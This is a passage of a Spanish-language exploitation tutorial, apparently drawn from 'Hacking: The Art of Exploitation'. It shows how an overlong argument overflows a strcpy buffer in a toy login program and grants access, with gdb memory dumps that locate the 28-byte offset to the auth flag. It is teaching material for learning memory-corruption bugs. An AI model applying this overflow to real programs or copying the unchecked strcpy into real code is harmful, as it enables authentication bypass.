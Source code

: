 ```c
 if(check_authentication(argv[1])) {
       printf("n-=-=-=-=-=-=-=-=-=-=-=-=-=-n");
      printf("      Acceso concedido.n");
       printf("-=-=-=-=-=-=-=-=-=-=-=-=-=-n");
   } else {
      printf("nAcceso denegado.n");
   }
}
```

No parece que el programa tenga ningún error, admite dos contraseñas (brillig y outgrabe), vamos a probarlo:

```bash
hkr-> ./auth_overflow.binary contraseña

Acceso denegado.

```

```bash
hkr-> ./auth_overflow.binary brillig

-=-=-=-=-=-=-=-=-=-=-=-=-=-
      Acceso concedido.
-=-=-=-=-=-=-=-=-=-=-=-=-=-

```

```bash
hkr-> ./auth_overflow.binary AAAAAAAAAAAAAAAAAAAAAAAAAAAAA

-=-=-=-=-=-=-=-=-=-=-=-=-=-
      Acceso concedido.
-=-=-=-=-=-=-=-=-=-=-=-=-=-

```

¿Qué ha pasado?, vamos a echar un vistazo con gdb:

```bash
gdb -q auth_overflow.c.binary
Using host libthread_db library "/lib/tls/i686/cmov/libthread_db.so.1".
(gdb) b 9
Breakpoint 1 at 0x8048421: file auth_overflow.c, line 9.
(gdb) b 16
Breakpoint 2 at 0x804846f: file auth_overflow.c, line 16.
(gdb) run AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Starting program: /home/hkr/booksrc/auth_overflow.c.binary
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, check_authentication (password=0xbffff9f4 'A' <repeats>)
    at auth_overflow.c:9
9               strcpy(password_buffer, password);
(gdb) x/s password_buffer
0xbffff7d0:      ")����o��b���)205�04b�o������b"
(gdb) x/x &auth;_flag
0xbffff7ec:     0x00000000
(gdb) print 0xbffff7ec - 0xbffff7d0
$1 = 28
(gdb) x/16xw password_buffer
0xbffff7d0:     0xb7f9f729      0xb7fd6ff4      0xbffff808      0x08048529
0xbffff7e0:     0xb7fd6ff4      0xbffff8a0      0xbffff808      0x00000000
0xbffff7f0:     0xb7ff47b0      0x08048510      0xbffff808      0x080484bb
0xbffff800:     0xbffff9f4      0x08048510      0xbffff868      0xb7eafebc
(gdb)

```

 [1]: http://www.amazon.es/gp/product/1593271441/ref=as_li_ss_tl?ie=UTF8&tag;=elbaudelpro-21&linkCode;=as2&camp;=3626&creative;=24822&creativeASIN;=1593271441
